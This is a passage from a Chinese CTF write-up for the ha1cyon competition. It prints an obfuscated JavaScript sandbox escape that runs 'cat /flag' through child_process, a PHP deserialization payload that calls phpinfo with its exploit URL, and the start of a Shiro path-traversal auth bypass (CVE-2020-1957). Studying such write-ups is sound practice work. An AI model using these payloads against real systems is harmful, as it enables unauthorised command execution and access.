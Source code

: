```
{"e":"(Math=>(Math=Math.constructor,Math.x=Math.constructor(Math.fromCharCode(114,101,116,117,114,110,32,112,114,111,99,101,115,115,46,109,97,105,110,77,111,100,117,108,101,46,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,101,120,101,99,83,121,110,99,40,39,99,97,116,32,47,102,108,97,103,39,41))()))(Math+1)","first":{"length":"1"},"second":{"length":"1"}}
```

![](http://mo0n.top/images/ha1cyon/yan-zheng-ma.png)

flag:

flag{8d82d5d6-741e-432a-be35-e43c23180b1a}


## RealEzPHP

就是一个简单反序列化，flag在phpinfo里面

```
<?php
class HelloPhp
{
    public $a;
    public $b;


}
$a=new HelloPhp();
$a->b='call_user_func';
$a->a='phpinfo';
echo urlencode(serialize($a));

?>
```

`http://ha1cyon-ctf.fun:30089/time.php?data=O%3A8%3A%22HelloPhp%22%3A2%3A%7Bs%3A1%3A%22a%22%3Bs%3A7%3A%22phpinfo%22%3Bs%3A1%3A%22b%22%3Bs%3A14%3A%22call_user_func%22%3B%7D`

![](http://mo0n.top/images/ha1cyon/real-ez.png)

FLAG

flag{7b0e7129-48fa-44b7-a8d8-8e1ed7d4a21e} 


## ezshiro 

看到访问 `/json` 就跳到`/login`，

是一个比较新的`shiro`漏洞`CVE-2020-1957`

可以通过`/;/json`的方式绕过直接访问

`GET`访问是显示`Request method not support`

`POST a=1`访问，
